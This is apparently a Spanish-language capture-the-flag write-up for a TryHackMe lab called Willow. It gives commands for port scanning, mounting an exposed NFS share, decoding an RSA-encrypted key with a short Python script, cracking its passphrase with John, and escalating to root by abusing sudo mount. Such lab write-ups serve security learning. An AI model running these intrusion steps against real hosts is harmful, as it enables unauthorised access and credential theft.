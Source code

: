 <img src="https://github.com/user-attachments/assets/6427dd2f-8751-48c8-9e79-1a8429d74588"  height=155 width=155>


<h1> Willow </h1>

```
udo nmap -sCV -T4 --min-rate 4000 -p- 10.10.7.8

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-16 10:02 BST
Nmap scan report for ip-10-10-7-8.eu-west-1.compute.internal (10.10.7.8)
Host is up (0.00087s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      45528/udp  mountd
|   100005  1,2,3      57754/tcp  mountd
|   100021  1,3,4      40524/udp  nlockmgr
|   100021  1,3,4      57168/tcp  nlockmgr
|   100024  1          39072/udp  status
|   100024  1          54480/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
MAC Address: 02:3E:43:0F:ED:FB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.62 seconds
```

- Puerto 22
- Puerto 80
- Puerto 111
- Puerto 2049

```
showmount ip
mount -t nfs 10.10.7.8:/var/failsafe new -o nolock
```
```
cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627
```

En la web encontramos un ponto de numeros 

![image](https://github.com/user-attachments/assets/771a338a-e673-4ffe-866e-5407a79b9ee2)

Si pasamos lo que encontramos por cyberchief nos da una pequeña pista y parece ser un nombre @Willow

![image](https://github.com/user-attachments/assets/6983f7d5-ee3d-41df-b69d-d209020b7659)

Como anteriormente hemos sacado el par de llaver podemos definir el numero

## Desencripttación

Ahora que sabemos el nombre del archivo "rsa_keys" podemos desencriptar el mensaje (nos dan un hint)

Vamos a coger el programita de python

```
import argparse

parser = argparse.ArgumentParser(description="Decode RSA")
parser.add_argument("file", help="The file containing the encrypted text")
parser.add_argument("d", help="The Private Key", type=int)
parser.add_argument("n", help="The Modulus", type=int)
args=parser.parse_args()

with open(args.file, "r") as coded:
    data = [int(i.strip("\n")) for i in coded.read().split(" ")]

for i in data:
    print(chr(i**args.d % args.n), end="")
```

Lo primero que vemos es la importación del modulo "argarpe" especificando los argumentos que posteirormente utilizaremos.

Simplemente cogemos los numeros que la private key nos ha dado y lo pasamos por el programa

```
python3 decoder.py code.txt 61527 37627 > rsakey
```

![image](https://github.com/user-attachments/assets/d06d7423-5690-433e-9b95-2b2c81a677a6)

Ahora que tenemos la llave necesitaremos al mismisimo john para que nos des hashe

![image](https://github.com/user-attachments/assets/d2cefa6e-0ac1-4d4b-ad2a-76cb70d87c62)

```
locate john
```

![image](https://github.com/user-attachments/assets/be44c0ce-5f2a-4870-87cc-ca8e5831553f)

```
chmod 600 rsakey
ssh -i rsakey willow@ip
```

Ponemos la pss y estamos dentro

Ya dentro vemos que hay un user.jpg doy por hecho que voy a tener que hacer un steghide o un exiftool

![image](https://github.com/user-attachments/assets/cc97f320-0c67-4e94-b2a0-931e205f7e2b)

Nos levantamos un python y lo cogemos o simplemente desde el ssh podemos tambien con scp

```
scp -i rsakey willow@ip:user.jpg
```

![image](https://github.com/user-attachments/assets/ef14c68f-38dd-4edb-a590-b294bfaf07f1)

Tenemos el THM pensaba que era con exiftool y demás pero ha sido mas fácil

# Escala de privilegios

Vaya 

![image](https://github.com/user-attachments/assets/dee484aa-ec75-48c5-b60e-a26d9e0af57f)

Parece ser que tenemos acceso a las montura a ver que hay

![image](https://github.com/user-attachments/assets/68ed1cba-86e4-4a2e-81cc-7dcf0eb2477c)

Y no tenemos permiso, pero creo que podemos hacer cosas chulas

Podemos ejecutar mount como ROot. Anteriormente usamos el comnado "mount" para acceder al NFS, pero como lo usamos con el ssh? no podemos utilizar "fdisk" y "lsblk"

Vemos que el disco esta montado en /dev 

![image](https://github.com/user-attachments/assets/87985f52-5654-4808-a20f-3ba116e219b9)

qUE CONVENIENTE VAMOS A MONTARLO Y VER

![image](https://github.com/user-attachments/assets/8058d292-0573-4ccd-bd28-3b04a46e8558)

Más fácil de lo que pensaba. Vamos a ver si se pueden sacar los hashes

Ah esperate que no estan ni hasheadas jajaja

![image](https://github.com/user-attachments/assets/6ee602c3-2ee3-4b05-8afd-60fc46bc9e15)

GG



